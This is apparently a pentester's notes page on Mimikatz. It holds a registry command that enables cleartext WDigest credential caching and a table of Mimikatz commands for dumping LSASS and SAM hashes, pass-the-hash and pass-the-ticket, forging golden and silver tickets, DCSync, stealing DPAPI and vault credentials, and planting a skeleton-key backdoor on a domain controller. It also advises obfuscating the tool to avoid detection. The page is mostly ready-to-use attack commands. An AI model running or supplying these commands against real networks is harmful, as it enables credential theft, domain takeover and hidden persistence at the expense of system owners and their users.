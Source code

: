 Mimikatz is a windows tool used to enumerate passwords and hashes from the Windows SAM, which can be acquired by Mimikatz or via a process dump by [[Procdump]] or in Task Manager , and from LSASS. It can further be used to abuse the Kerberos protocol by impersonating users via tickets or password hashes. 

> [!danger] Detection Risk 
> Mimikatz is well signatured. This must be obfuscated or otherwise disguised before running, as with most tools. 

Mimikatz is run as an executable and prompts the user with a command line interface.

Enable WDigest (cleartext in-memory) credentials with the following registry edit:
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
Enabling them will cache them in memory when a user logs in. It will not affect users already logged into the system. 

| Mimikatz Command                                                                                                                                                                                                               | Description                                                                                                                                                              |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| `privilege::debug`                                                                                                                                                                                                             | Check for SeDebugPrivilege availability in current session                                                                                                               |
| `sekurlsa::msv`                                                                                                                                                                                                                | Pull password hashes from LSASS memory via injection.                                                                                                                    |
| `sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<hash>`                                                                                                                                                                     | Perform a Pass-The-Hash attack to impersonate a new user                                                                                                                 |
| `sekurlsa::logonPasswords`                                                                                                                                                                                                     | Get passwords and hashes by any means possible (cleartext creds require WDigest to be enabled)                                                                           |
| `sekurlsa::minidump \<dumpfile\>`                                                                                                                                                                                              | Examine a specific .dmp file gnerated via procdump or TM                                                                                                                 |
| `sekurlsa::ekeys`                                                                                                                                                                                                              | List Kerberos encryption keys                                                                                                                                            |
| `sekurlsa::dpapi`                                                                                                                                                                                                              | List DPAPI master keys for browser-stored credentials and the Windows Credential Vault                                                                                   |
| `sekurlsa::tickets /export`                                                                                                                                                                                                    | Export Kerberos tickets in memory to files for PTT.                                                                                                                      |
| `kerberos::ptt <ticket>`                                                                                                                                                                                                       | Perform PTT attack and store a provided ticket in memory. (Verify with `klist` outside of mimikatz)                                                                      |
| `kerberos::golden /user:<your username> /domain:<domain> /sid:<SID> /krbtgt:<KRBTGT hash from lsa (golden only)> /service:<service name (silver only) /rc4:<Service NTLM hash (silver only)> /id:<500 (golden)/1103 (silver)>` | Create a golden or silver ticket with Mimikatz and add it to your mimikatz session.                                                                                      |
| `lsadump::sam`                                                                                                                                                                                                                 | Dump the SAM                                                                                                                                                             |
| `lsadump::dcsync /domain:contoso.local /user:adminisrtator@contoso.local`                                                                                                                                                      | Request a DC sync to acquire the NTLM (or RC4 decrypted) hash for the given user. Must be run in the context of a user with DCSync rights.                               |
| `lsadump::cache`                                                                                                                                                                                                               | Load cached credentials from the registry                                                                                                                                |
| `lsadump::lsa /inject /name:krbtgt`                                                                                                                                                                                            | Dump the KRBTGT for creating Golden Tickets. Change `krbtgt` to a service account or DA to make a silver ticket.                                                         |
| `lsadump::secrets`                                                                                                                                                                                                             | Dump secrets on host, including active TGTs in memory owned by service accounts and cleartext credentials for logged-in users.                                           |
| `vault::list`                                                                                                                                                                                                                  | List the vaults on a system                                                                                                                                              |
| `vault:cred`                                                                                                                                                                                                                   | List credentials in a vault                                                                                                                                              |
| `misc::cmd`                                                                                                                                                                                                                    | Open an elevated command prompt with the privileges/tickets currently obtained.                                                                                          |
| `misc::skeleton`                                                                                                                                                                                                               | Inject a skeleton key backdoor into the forest's memory. From here, you may use the password 'mimikatz' with any user in the domain. Must be run on a domain controller. |

See also: [[Pypykatz]]
